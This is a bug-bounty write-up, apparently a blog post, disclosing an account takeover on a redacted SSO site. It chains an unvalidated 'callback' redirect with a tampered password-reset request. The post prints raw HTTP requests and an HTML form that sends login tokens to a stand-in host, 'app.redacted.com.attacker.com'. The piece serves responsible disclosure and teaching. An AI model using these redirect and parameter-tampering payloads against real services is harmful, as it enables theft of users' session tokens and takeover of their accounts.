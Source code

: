 ```yaml
---
layout: post
title: From Unvalidated Redirect and Parameter Tampering to Account Takeover
excerpt: "In this simple write-up, I would like to tell how I found an Account Takeover vulnerability with a unique method. There's no special or unique bypass thing. Just try to find another exploitation way."
tags: [bug hunting, hacking, unvalidated redirect, parameter tampering, account takeover]
categories: [bug hunting]
comments: true
image:
  feature: 5ee3bc3a3226da3dc1a3f88671451018.png
---
```



بسم الله الرحمن الرحيم

In this simple write-up, I would like to tell how I found an Account Takeover vulnerability with a unique method. There's no special or unique bypass thing. Just try to find another exploitation way.

>Because this is a Private Program, all Endpoint names, parameters, and part of the information displayed here is not the real name. This was made to give readers an idea to make it easier to understand the contents of this paper.

Some time ago, I did a Bug Hunting activity on a website based application. The site has several subdomains, each of which has different functions. This website uses SSO as an authentication scheme to make it easier for users to access each of the existing subdomains.

**I. Unvalidated Redirect**

When accessing different subdomains, there is a `Login Button` which when the user clicks, the user will send a request like the following:

```
POST /ssoLogin HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 123
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept-Encoding: gzip, deflate

action=login&app=app.name&callback=https://app.redacted.com/callback
```

Then the user will be directed to the subdomain URL along with access token on it.

Example:

```
https://app.redacted.com/callback?token=uaJfJi8hlNFCPSiKmjWO
```

This request can be manipulated by changing the value of the `callback` parameter to `app.redacted.com.attacker.com.` The attacker can steal user tokens by diverting callbacks to websites controlled by the attacker and creating simple malicious HTML like this:

```html
<html>
	<body>
		<form method="POST" action="https://redacted.com/ssoLogin">
			<input type="hidden" name="action" value="login"/>
			<input type="hidden" name="app" value="app.name"/>
			<input type="hidden" name="callback" value="https://app.redacted.com.attacker.com/callback"/>
			<input type="submit" value="Submit">
		</form>
	</body>
<html>
```

Sending `malicious links` to victims is boring, so I tried to find another way to trigger the request.

**II. Parameter Tampering**

After browsing through some of the features of the application, I found something interesting about the password reset function. When the user resets the password, then the user will be asked to enter his email address, but when making an intercept request, several other parameters are sent, not just email.

```
POST /resetPassword HTTP/1.1
Host: redacted.com
Connection: close
Content-Length: 123
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Accept-Encoding: gzip, deflate

action=resetpass&app=null&callback=null
```

There are similar parameters that are sent when logging into another subdomain when using SSO, it's `app` and `callback`.

So I tried to change the value the same as the previous request:

```
app=app.name&callback=https://app.redacted.com.attacker.com/callback
```

Surprisingly, I received an email to request a password with a URL like this:

```
https://redacted.com/resetPassword?token=uaJfJi8hlNFCPSiKmjWO&app=app.name&callback=https://app.redacted.com.attacker.com/callback
```

After entering a new password, the user will automatically be redirected to the login process along with the parameters listed in the URL. Of course, because the `callback` parameter has been manipulated, the user will be directed to the attacker's website along with its access token.

Attack Flow:

<img width="800px" alt="Attack Flow" src="/assets/ba62970936fbee1b8f84b6fd8dc9fb24.png">

![Attack Flow](/assets/ba62970936fbee1b8f84b6fd8dc9fb24.png){:height="700px" width="400px"}

Attacker will receive a request on his server with user's token on it.

![Attacker's Side](/assets/f3abb86bd34cf4d52698f14c0da1dc60.jpg)

I report this issue through Bugcrowd.

```
Timeline:

2019-10-17: Report Sent
2019-10-17: Report Triaged
2019-10-25: $4,500 Bounty Awarded
2020-03-03: Fixed
```

